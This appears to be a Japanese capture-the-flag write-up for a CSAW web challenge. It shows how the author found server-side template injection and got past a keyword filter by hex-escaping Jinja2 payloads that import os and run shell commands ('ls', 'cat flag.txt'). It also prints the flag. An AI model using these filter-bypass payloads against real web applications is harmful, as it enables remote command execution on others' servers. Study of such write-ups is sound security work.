


# Writeup

[http://web.chal.csaw.io:5000](http://web.chal.csaw.io:5000/)にアクセスする。

入力フォームが表示されるので、試しに`{{7*7}}`と入力すると`49`という演算結果が表示された。





SSTIが使えそうなことが分かった。

```
{{''.__class__}}
```

と入力すると、以下のメッセージが表示された。

```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```

これらの文字列を回避したpayloadを考えればよい。

ascii文字列を使って文字列チェックを回避する。(メッセージにはないが、`import`も除外対象だったので回避する。)

```
{{request.application["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimp\x6frt\x5f\x5f"]('\x6fs')["popen"]("ls")["read"]()}}

Hello app.py flag.txt templates

{{request.application["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimp\x6frt\x5f\x5f"]('\x6fs')["popen"]("cat flag.txt")["read"]()}}
```

<!-- flag{m0mmy_s33_1m_4_r34l_n1nj4} -->
